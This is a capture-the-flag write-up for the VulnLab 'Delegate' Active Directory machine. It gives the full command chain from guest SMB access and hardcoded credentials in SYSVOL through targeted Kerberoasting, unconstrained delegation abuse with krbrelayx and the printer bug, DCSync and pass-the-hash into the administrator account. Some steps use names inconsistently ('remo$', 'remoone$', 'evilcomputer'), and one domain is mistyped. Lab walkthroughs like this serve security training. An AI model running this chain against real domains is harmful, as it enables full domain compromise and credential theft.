

# Delegate

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Delegate** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.


Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 47001,49674,49664,464,49686,135,53,593,64282,3268,49666,3389,49675,49669,3269,389,5985,64313,49690 --min-rate=1000 10.10.78.6510.10.78.65
```



Now let’s enumerate the shares

```bash
nxc smb delegate.vl -u 'guest' -p '' --shares
```


> Notice that we have read access to the SYSVOL
> 

So let’s connect to the share

```bash

smbclient \\\\delegate.vl\\SYSVOL -U "delegate.vl\guest"
```


So let’s go and see the scripts that may be running

```bash
cd delegate.vl/scripts
```


As we see there is a file named users.bat so let’s download it

```bash
get users.bat
```


Let’s see the users.bat content

```bash
cat users.bat
```


> Notice that we found hardcoded credentials 
username: A.Briggs
password: P4ssw0rd1#123
> 

So let’s go and test those creds

```bash
nxc smb delegate.vl -u 'A.Briggs' -p 'P4ssw0rd1#123'
```


As we see the credentials are working

Let’s get a bloodhound

```bash
bloodhound-python -ns 10.10.78.65 -d delegate.vl -u 'A.Briggs' -p 'P4ssw0rd1#123' -c all --zip
```


Now let’s open it and see if we have any permissions 


> Notice that we have GenericWrite on another
> 

Now let’s abuse the targeted kerberosting

```bash
python3 targetedKerberoast.py -d delegate.vl -u 'A.Briggs' -p 'P4ssw0rd1#123' --dc-ip 10.10.78.65
```


Now let’s try to crack it’s hash

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


> As we see we got the password for the user N.Thompson
username: N.Thompson
password: KALEB_2341
> 

Now let’s see the new user permissions


> Notice that the user is in a group named Delegation Admins
> 

Now let’s go and create new computer object

```bash
impacket-addcomputer -computer-name 'remo$' -computer-pass '123456' -dc-ip 10.10.78.65 deledation.vl/A.Briggs:'P4ssw0rd1#123'
```


Now let’s add spn to the machine

```bash
python3 addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/remoone.delegate.vl' -t 'remoone$' -dc-ip 10.10.78.65 dc1.delegate.vl --additional
```

Now let’s add delegation for the machine

```bash
bloodyAD -u 'N.Thompson' -d 'delegate.vl' -p 'KALEB_2341' --host 'dc1.delegate.vl' add uac 'remoone$' -f TRUSTED_FOR_DELEGATION
```


Now let’s open the krbrelayx

```bash
python3 krbrelayx.py -smb2support -hashes :32ED87BDB5FDC5E9CBA88547376818D4
```


Now let’s add dns entry for in the domain

```bash
python3 dnstool.py -u 'delegate.vl\remoone$' -p 123456 -r remoone.delegate.vl -d 10.8.5.233 --action add dc1.delegate.vl -dns-ip 10.10.78.65
```


Now let’s start relaying 

```bash
python printerbug.py -hashes :F2D0C0E145E8323B97CEC00272D7FA01 delegate.vl/evilcomputer\$@dc1.delegate.vl evilcomputer.delegate.vl
```


Now let’s see if we got a ticket


Now let’s go and export the ticket

```bash
export KRB5CCNAME='DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache'
```


now let’s perform DCSync to get administrator hash

```bash
impacket-secretsdump -k -no-pass dc1.delegate.vl
```


Now let’s go and winrm to the machine

```bash
evil-winrm -i delegate.vl -u administrator -H c32198ceab4cc695e65045562aa3ee93
```


Now let’s go and navigate to the administrator desktop and see the root flag

```bash
cd c:\users\administrator\desktop
```


Amazing we got the root flag 🥳


That’s it for the **Delegate** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX